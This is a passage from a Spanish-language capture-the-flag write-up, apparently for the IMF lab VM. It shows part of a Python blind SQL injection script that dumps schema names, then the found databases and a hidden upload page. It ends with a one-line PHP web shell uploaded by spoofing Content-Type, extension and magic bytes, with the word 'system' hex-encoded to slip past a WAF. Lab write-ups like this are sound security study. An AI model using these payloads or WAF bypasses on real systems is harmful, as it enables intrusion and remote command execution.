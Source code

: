 ```python
             sqli_url = main_url + "home' or substring((select group_concat(schema_name) from information_schema.schemata),%d,1)='%s" % (position, character) # %d de dígito y %s de string
                 
             r = requests.get(sqli_url, headers=headers)
 
             if 'Welcome to the IMF Administration.' not in r.text:
                 data += character
                 p2.status(data)
                 break
     p1.success("Ataque concluído")
     p2.success()
 
 if __name__ == '__main__':
 
     sqli()
```

Bases de datos encontradas: ``information_schema,admin,mysql,performance_schema,sys``

Dentro de la base de datos ``admin``: 

- Tabla: ``pages``
- Columnas: ``id,pagename,pagedata``

Entramos a columna ``pagename`` y vemos que hay una sección que no está pública en la web llamada ``tutorials-incomplete`` por lo tanto ingresaremos a la siguiente URL.

- http://192.168.0.220/imfadministrator/cms.php?pagename=tutorials-incomplete

Dentro de esta sección veremos una imagen con un **QR** que podemos decodificar sacándole una captura con ``sleep 2, flameshot gui`` y utilizando un decoder online.

![[VM 4.png]]

Esta cadena en base64 decodificada dice: ``uploadr942.php`` que investigando detectamos que es una sección web donde nos permite subir archivos.

![[VM 5.png]]

#### Abuso de subida de archivos

Ahora lo que debemos hacer es burlar la subida de archivos para poder conseguir subir nuestro archivo malicioso ``.php``

```php
<?php
	system($_GET['cmd'])
?>
```

En mi caso conseguí subir este archivo cambiando el *Content-Type*, modificando la *extensión* y los primeros *bytes* del archivo (*Magic numbers*), además algo extra que noté es que el WAF (Firewall web) detectaba mi código malicioso debido al uso de la función ``system`` propia de **php**, por lo tanto emplee una forma de bypassear esa detección colocando la cadena **system** en hexadecimal.

![[VM 6.png]]
